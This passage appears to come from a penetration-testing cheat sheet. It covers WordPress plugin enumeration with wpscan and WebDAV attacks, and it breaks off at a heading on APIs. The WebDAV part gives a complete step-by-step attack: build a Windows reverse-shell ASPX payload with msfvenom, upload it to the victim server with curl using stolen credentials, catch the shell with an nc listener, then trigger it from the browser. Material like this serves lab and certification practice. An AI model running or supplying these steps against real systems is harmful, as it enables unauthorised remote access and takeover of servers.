 
- **Detect Vulnerable Pluging**

    # Detect vulnerable plugins
    wpscan --url http(s)://<IP>/ --enumerate vp
    
    # Detect all plugins
    wpscan --url http(s)://<IP>/ --enumerate p
    
    # Aggressive detection of all plugins
    wpscan --url http(s)://<IP>/ --enumerate p --plugins-detection aggressive
    

#### 3.1.6 WebDav

**Reference**: [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav)

**Nmap Scan Results**

    80/tcp    open  http          Microsoft IIS httpd 10.0
    | http-webdav-scan:
    |   WebDAV type: Unknown
    |   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
    

**Connecting to a WebDAV Server**

    # Use cadaver
    cadaver [IP]
    

**Exploitation with Credentials**

1. Generate a Reverse Shell Payload

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=$IP LPORT=80 -f aspx -o shell.aspx
    

1. Upload Payload via WebDAV

    curl -T &#39;shell.aspx&#39; &#39;http://$VictimIP/&#39; -u <username>:<password>
    

1. Start the listener

    nc -nvlp 80
    

1. Trigger the Payload: access the uploaded shell `http://$VictimIP/shell.aspx`

#### 3.1.7 APIs
